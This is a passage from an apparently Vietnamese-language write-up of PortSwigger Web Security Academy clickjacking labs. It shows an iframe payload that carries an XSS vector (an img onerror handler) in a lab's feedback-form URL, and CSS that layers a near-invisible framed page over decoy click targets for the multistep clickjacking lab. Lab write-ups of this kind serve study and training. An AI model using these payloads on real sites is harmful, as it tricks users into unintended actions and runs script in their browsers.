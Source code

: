 ```html
<iframe src="https://0ac500860442b0d78050031c006f00fe.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
![alt text](image-5.png)


## 5. Multistep clickjacking
https://portswigger.net/web-security/clickjacking/lab-multistep

Lab này sử dụng CSRF token + hộp thoại xác nhận để tránh Clickjacking, vậy nên cần thực hiện click 2 lần theo lần lượt. 

```html
<style>
	iframe {
		position:relative;
		width:1000px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:510px;
		left:60px;
		z-index: 1;
	}
   .secondClick {
		top:310px;
		left:200px;
	}
</style>
```